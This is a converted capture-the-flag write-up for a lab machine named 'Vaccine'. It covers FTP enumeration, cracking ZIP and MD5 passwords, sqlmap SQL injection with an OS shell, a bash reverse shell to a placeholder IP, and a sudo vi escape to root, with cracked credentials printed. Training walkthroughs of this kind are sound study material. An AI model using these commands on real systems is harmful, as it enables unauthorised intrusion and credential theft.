









# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Vaccine Write-up Prepared by: ilinor Introduction

## Extracted walkthrough

### Page 1

```
Vaccine Write-up

Prepared by: ilinor
Introduction

Penetration testing is not simple, it requires lots of technical knowledge and the capability to think outside 
of the box. Sometimes you will find simple yet dangerous vulnerabilities, other times you will find 
vulnerabilities where public exploits exists which you can use to get easy access to the system. The reality is, 
most of the times you will need to have many different vulnerabilities and misconfiguration where you will 
have to chain them all together in order to access the system of the target machine, or you will have a 
system that doesn't have vulnerabilities, but it has a weak password which might grant you access to the 
system. Vaccine is the machine that teaches us how enumeration is always the key, even if the system 
seems to be secure. Apart from that, it also teaches us how important is password cracking, it's surprising to 
know that not everyone has strong passwords.

Enumeration

Just as usual, we start off with the Nmap scan:
```



### Page 2

```
There are three ports open: 21 (FTP), 22 (SSH), 80 (HTTP). Since we don't have any credentials for the SSH 
service, we will start off with enumeration of the port 21, since the Nmap shows that it allows anonymous 
login:
```


### Page 3

```
We can see that there is a backup.zip  file available, we will download it:


It will be located in the folder from where we established the FTP connection. We will try to unzip it with the 
command unzip :
```





### Page 4

```
The compressed archive asks us for a password. We will try a couple of basic passwords to see if it will let us 
in, however, no luck in it.


We will have to somehow crack the password. The tool we will use for this task is named John the Ripper.


John the Ripper comes pre-installed with Parrot OS & Kali Linux, however, if you don't have it, you can install 
it from the repository:

John the Ripper is a free password cracking software tool. Originally developed for the 
Unix operating system, it can run on fifteen different platforms (eleven of which are 
architecture-specific versions of Unix, DOS, Win32, BeOS, and OpenVMS). It is among the 
most frequently used password testing and breaking programs as it combines a number of 
password crackers into one package, autodetects password hash types, and includes a 
customizable cracker. It can be run against various encrypted password formats 
including several crypt password hash types most commonly found on various Unix 
versions (based on DES, MD5, or Blowfish), Kerberos AFS, and Windows NT/2000/XP/2003 LM 
hash. Additional modules have extended its ability to include MD4-based password hashes 
and passwords stored in LDAP, MySQL, and others.
```


### Page 5

```
Once you install it, you can type the following command to check how to use it:
```


### Page 6

```
In order to successfully crack the password, we will have to convert the ZIP into the hash using the 
zip2john  module that comes within John the Ripper:
```


### Page 7

_No text extracted from this page._


### Page 8

```
Now, we will type the following command:
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
So it will load the wordlist & it will do a bruteforce attack against the hash stored in file hashes . Once the 
password is cracked, we will use the --show  option to display the cracked password.


We can see the cracked password: 741852963 . We will extract the files now:


We will now read the index.php  file first:
```






### Page 9

```
We can see the credentials of admin:2cb42f8734ea607eefed3b70af13bbd3 , which we might be able to use. 
But the password seems hashed.
We will try to identify the hash type & crack it with the hashcat:


It provides a huge list of possible hashes, however, we will go with MD5 first:
We will put the hash in a text file called hash & then crack it with hashcat:

session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === 
"2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
```


### Page 10

```
Hashcat cracked the password: qwerty789
We will start our web browser to enumerate the port 80, see where can we log in:
```




### Page 11

```
We can see the login page, by supplying the previously found username & cracked password, we managed 
to log in successfully!


Foothold
```


### Page 12

```
So the dashboard has nothing special in it, however, it has a catalogue, which might be connected with the 
database. Let's create any query:


By checking the URL, we can see that there is a variable $search  which is responsible for searching through 
catalogue. We could test it to see if it's SQL injectable, but instead of doing it manually, we will use a tool 
called sqlmap .


The sqlmap comes pre-installed with Parrot OS & Kali Linux, however, you can install it through the 
repository if you don't have it:
sudo apt install sqlmap
To see how to use it, we will type the following command:

SQLmap is an open-source tool used in penetration testing to detect and exploit SQL 
injection flaws. SQLmap automates the process of detecting and exploiting SQL 
injection. SQL Injection attacks can take control of databases that utilize SQL.
```


### Page 13

```
We will provide the URL & the cookie to the sqlmap in order for it to find vulnerability. The reason why we 
have to provide a cookie is because of authentication:
To grab the cookie, we can intercept any request in Burp Suite & get it from there, however, you can install a 
great extension for your web browser called cookie-editor :
```


### Page 14

```
For Google:
https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm
For Firefox:
https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/


The cookies in HTTP messages of requests are usually set the following way:
PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1
Knowing that, here's how our sqlmap syntax should look:
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
We ran the sqlmap:
Note: There will be some questions that the tool will ask you, you can respond with 'Y ' or 'N', or just by pressing 
ENTER for the default answer.
```


### Page 15

```
Out of this output, the thing that is important to us is the following:
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? 
[y/N]
The tool confirmed that the target is vulnerable to SQL injection, which is everything we needed to know. We 
will run the sqlmap once more, where we are going to provide the --os-shell  flag, where we will be able 
to perform command injection:
```




### Page 16

```
We got the shell, however, it is not very stable & interactive. To make it much stable, we will use the 
following payload:
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
We will turn on the netcat listener on port 443:


Then we will execute the payload:
```






### Page 17

```
We will go back to our listener to see if we got the connection:


We got the foothold. We will quickly make our shell fully interactive:


We got the fully interactive shell now.
The user flag could be found in /var/lib/postgresql/ :


python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
postgres@vaccine:~$ ls
user.txt
postgres@vaccine:~$
```


### Page 18

```
Privilege Escalation

We are user postgres , but we don't know the password for it, which means we cannot check our sudo  
privileges:


We will try to find the password in the /var/www/html  folder, since the machine uses both PHP & SQL, 
meaning that there should be credentials in clear text:


In the dashboard.php , we found the following:


postgres@vaccine:~$ sudo -l
[sudo] password for postgres:
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
postgres@vaccine:/var/www/html$ ls -la
total 392
drwxr-xr-x 2 root root   4096 Jul 23 14:00 .
drwxr-xr-x 3 root root   4096 Jul 23 14:00 ..
-rw-rw-r-- 1 root root 362847 Feb  3  2020 bg.png
-rw-r--r-- 1 root root   4723 Feb  3  2020 dashboard.css
-rw-r--r-- 1 root root     50 Jan 30  2020 dashboard.js
-rw-r--r-- 1 root root   2313 Feb  4  2020 dashboard.php
-rw-r--r-- 1 root root   2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root   1100 Jan 30  2020 license.txt
-rw-r--r-- 1 root root   3274 Feb  3  2020 style.css
postgres@vaccine:/var/www/html$
session_start();
  if($_SESSION['login'] !== "true") {
    header("Location: index.php");
    die();
  }
  try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres 
password=P@s5w0rd!");
  }
```


### Page 19

```
The password is: P@s5w0rd!
Note that the shell might die all of a sudden, instead of re-doing the exploit all over again, we will use the 
SSH to log in:

┌─[ilinor@Parrot]─[~/Vaccine]
└──╼ $ssh postgres@10.129.95.174
The authenticity of host '10.129.95.174 (10.129.95.174)' can't be established.
ECDSA key fingerprint is SHA256:eVsQ4RXbKR9eOZaXSlMmyuKTDOQ39NAb4vD+GOegBvk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.95.174' (ECDSA) to the list of known hosts.
postgres@10.129.95.174's password: P@s5w0rd!
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Sat 24 Jul 2021 11:16:59 AM UTC
  System load:  0.0               Processes:             245
  Usage of /:   35.0% of 8.73GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.129.95.174
  Swap usage:   0%
 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.
   https://ubuntu.com/blog/microk8s-memory-optimisation
0 updates can be installed immediately.
0 of these updates are security updates.
Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife
New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```


### Page 20

```
We will type the sudo -l  to see what privileges do we have:


So we have sudo  privileges to edit the pg_hba.conf file using vi by running sudo /bin/vi 
/etc/postgresql/11/main/pg_hba.conf . We will go to GTFOBins to see if we can abuse this privilege:
https://gtfobins.github.io/gtfobins/vi/#sudo


So we will execute it:

We are unable to execute the following command because sudo  is restricted to only /bin/vi 
/etc/postgresql/11/main/pg_hba.conf .
There's also an alternative way according to GTFOBins:
postgres@vaccine:~$
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR 
XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, 
mail_badpass
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$
If the binary is allowed to run as superuser by sudo, it does not drop the elevated 
privileges and may be used to access the file system, escalate or maintain privileged 
access.
    sudo vi -c ':!/bin/sh' /dev/null
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' 
/dev/null
Sorry, user postgres is not allowed to execute '/bin/vi 
/etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh /dev/null' as root on vaccine.
```


### Page 21

```
So we will perform that as well:
We managed to open the vi  editor as the superuser, which has root privileges:
Now we will press the :  button to set the instructions inside Vi :
:set shell=/bin/sh
vi
:set shell=/bin/sh
:shell
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```




### Page 22

```
Next, we will open up the same instruction interface & type the following:
:shell
After we execute the instructions, we will see the following:
```


### Page 23

```
The root flag can be obtained in the root folder:
Note: Type bash  to switch to /bin/bash  shell:
We successfully got the root flag, congratulations!
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
# cd /root
# bash
root@vaccine:~# ls
root.txt
root@vaccine:~#
```


---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
